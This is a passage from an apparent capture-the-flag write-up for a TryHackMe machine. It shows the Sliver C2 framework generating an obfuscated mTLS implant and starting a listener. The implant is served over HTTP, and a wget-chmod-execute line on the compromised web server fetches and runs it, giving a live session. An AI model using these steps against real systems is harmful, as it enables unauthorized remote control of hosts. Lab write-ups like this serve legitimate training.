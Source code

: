 **Start multiplayer mode:**
```
[server] sliver > multiplayer

[*] Multiplayer mode enabled!
```

- Client:

**Connect to the teamserver:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# /opt/sliver-client_linux
[...]
sliver >  
```

**Now, we can use Sliver C2 to generate an implant (payload) which using the mTLS for connection:**
```
sliver > generate --mtls 10.9.0.253 --os linux --save ./implant

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 34s
[*] Implant saved to /root/ctf/thm/ctf/toc2/implant
```

**Start mTLS listener:**
```
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #2

sliver > jobs

 ID   Name   Protocol   Port  
==== ====== ========== =======
 1    grpc   tcp        31337 
 2    mtls   tcp        8888
```

**Deliver the implant, and execute it:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@toc:/var/www/html/cmsms$ wget http://10.9.0.253/implant -O /tmp/implant;chmod +x /tmp/implant

www-data@toc:/var/www/html/cmsms$ /tmp/implant
```

**Client:**
```
[*] Session e546ea92 PLAIN_BANKER - 10.10.248.228:39856 (toc) - linux/amd64 - Thu, 24 Nov 2022 04:14:41 EST

sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health  
========== =========== ===================== ========== ========== ================== =========
 e546ea92   mtls        10.10.248.228:39856   toc        www-data   linux/amd64        [ALIVE]
```
